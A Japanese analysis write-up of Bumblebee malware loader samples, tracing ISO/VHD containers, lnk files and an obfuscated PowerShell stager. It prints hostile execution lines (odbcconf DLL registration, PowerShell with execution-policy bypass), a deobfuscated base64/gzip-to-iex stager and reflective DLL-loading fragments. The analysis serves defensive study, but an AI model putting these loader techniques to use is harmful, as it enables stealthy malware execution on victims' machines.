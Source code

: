 # Bumblebeeを見てみる

BumblebeeはIcedIDやbazaarLoaderから切り替わって利用されると話題にされたマルウェア(loader)です。  
IcedIDを見たときにどうせだからこっちも見てみようと思いまして、調べてみました。  
まぁ正直、bleepingcomputerに詳細が載ってるので私の情報載せる意味ないのですが。まぁ勉強ついでということでお付き合い下さい。  

https://www.bleepingcomputer.com/news/security/bumblebee-malware-adds-post-exploitation-tool-for-stealthy-infections/


### 対象マルウェア

以下になります。毎度おなじみのmalware bazaarにあります。

- sha256: a896dcc08e5ade583fd9c579c75e3e1b1249e7a873e37ca4a7c11ef363fa8cff  
- URL: https://bazaar.abuse.ch/sample/a896dcc08e5ade583fd9c579c75e3e1b1249e7a873e37ca4a7c11ef363fa8cff/

### 調査してみる

では、まずはzipを開いてみます。そうすると今度は`img`ファイルですね。まぁこれも`iso`と同じようなものです。  

![zipfile](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/zip-file.png)

内容を見てみますと、隠しファイルのDLLとlnkファイルになっています。ありがちですね。  

![lnkfile](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/lnk-file.png)

Lnkの内容は以下になってます。  
```dos
C:\Windows\System32\odbcconf.exe /a {REGSVR DFSdDHyafGNBMb.dll}
```

正直、やってることはなんとなくわかりますが`odbcconf.exe`を使ってるのは可能なのかな？と思ってLoLBASで見てみました。  
そうすると確かにあるようですね。

![odbcconf](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/odbcconf.png)  
引用： https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/

Note: LoLBASはLoL(Living of the Land)によって利用される各種バイナリとその用途が記載されてあります。  

なるほど。。odbcconfでdll実行ができるのですね。これは勉強になりました。  

このDLLファイルのsha256は以下になります。  
sha256: f1aa85cd3d3ed3d2b3ff8e705d81c32d2e7794208f7f7a76f7314ef408b897d2

さて、DLLを見てみましょうか。  
以下はvirustotalの検出です。数日たってますから既に大量に検知されてますね。  
![virustotal01](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/vt-file01.png)

relationを見ると通信先は２つ。ただし、どちらも検知ゼロです。  

![virustotal02](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/vt-file02.png)  

それもそのはず。通信先のIPはどちらもmicrosoftになってます。IaaS利用でしょうね。  
1)
![virustotal02](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/vt-file03.png)
2)
![virustotal02](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/vt-file04.png)

その他、サンドボックスの実行結果は正直あまり見るところはないですが。１つ見ておいた方がいいかと思うのは以下です。  

![virustotal02](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/vt-file05.png)

サンドボックス実行検知系ですね。  
どういうことが確認されるのかを理解しておくのはいいと思います。  

しかし、これbleepingcomputerに乗ってるやつじゃないですね。。powershell使うやつ見ようとしてましたが。。

というわけで、もう１つ見てみましょう。以下のハッシュです。  
これもmalware bazaarにありました。  

sha256: e9a1ce3417838013412f81425ef74a37608754586722e00cacb333ba88eb9aa7
URL: https://bazaar.abuse.ch/sample/e9a1ce3417838013412f81425ef74a37608754586722e00cacb333ba88eb9aa7/

![vhdfile01](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/vhd-file01.png)

```dos
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -file lkndwsjds.ps1
```

正直、いつも通りですね。。vhdというイメージ形式になっただけで`ps1(powershell)`のスクリプトとそのリンクファイルです。  

では、スクリプトを見てみましょう。  

![psfile01](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/ps-file01.png)  

うん、よくあるobfuscationですね。  
下の方を見るととても分かりやすいです。  

![psfile02](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/ps-file02.png)  

では、少しわかりやすくします。  

```powershell
$dtPrEr = ""
foreach ($element in $acdukLom) {
    $data = [System.Convert]::FromBase64String($element)
    $ms = New-Object "System.IO.MemoryStream"
    $ms.Write($data, 0, $data.Length)
    $ms.Seek(0,0) | Out-Null
    $somObj = New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress)
    $drD = New-Object System.IO.StreamReader($somObj)
    $vVar = $drD.readtoend.Invoke()
    $dtPrEr += $vVar
}

$scriptPath = $MyInvocation.MyCommand.Path
$dtPrEr | iex
```

この最後に入っている`iex`がわかりやすくついてくれてるでありがたいですね。  
このコードは内容がgzipstreamを解凍して作ってるので実行しないと内容が見れません。  
なので、IEXなしで実行してみましょう。
そうすると以下になります。

![psfile03](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/ps-file03.png)  

ちなみにスクリプトの最後の方は以下。  

```powershell
$TIBpoA = $mbVar
$TIBpoA[0] = 0x4d
Invoke-pMnPDC -LdDataHpo $TIBpoA
```

まぁ、つまりinvoke-pmnpdcを実行するということですね。  

次に、この関数の末尾を見ると以下になってます。  

```powershell
Function sOFIZv
{
	$e_magic = ($LdDataHpo[0..1] | % {[Char] $_}) -join ''

	if ($e_magic -ne 'MZ')
	{
	    throw 'PE is not a valid PE file.'
	}

	Invoke-Command -ScriptBlock $deySdT -ArgumentList @($LdDataHpo, $Holksjwio)
}
sOFIZv
```

次に以下を見てみますとpowershellスクリプトでDLLロードして実行しようとしているように見えます。  

```powershell
$DllMain.Invoke($lBnGsi.PEHandle, 0, [IntPtr]::Zero) | Out-Null
$Success = $Win32Functions.VirtualFree.Invoke($PEHandle, [UInt64]0, $Win32Constants.MEM_RELEASE)
```

ということで、そもそもこの関数呼び出し時に渡されたデータはおそらくDLLと思い、以下のように書いてファイルに書きだしました。  

```powershell
[System.IO.File]::WriteAllBytes("out.dll", $TIBpoA)
```

この上で、IDAで開くとちゃんと開けます。やっぱりDLLファイルですね。  

![IDA](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/ida-file01.png)

ハッシュは以下です。  

sha256: f156f9741d72f053129135b42822975874cdf10e49f20e1e63efdd3525ccf0f2

virustotalでチェックしましたが、残念ながらこのハッシュは存在しなかったのでアップロードしました。  
そうするとかなり検知されてますね。  

![virustotal](https://raw.githubusercontent.com/proshiba/analysis/main/bumblebee/images/vt-file06.png)

中々面白い内容でした。DLLをファイルに書かずに読み込ませるのは、powershell利用の時では珍しい？気もしますが、どうなんでしょうね。  

### 終わりに。

正直、最初に見たのが最新だと思ったのでちょっと大変でした。  
まぁ中々普段見ないものだったので楽しかったです。

では、本日は終了させていただきます！  
ありがとうございました！
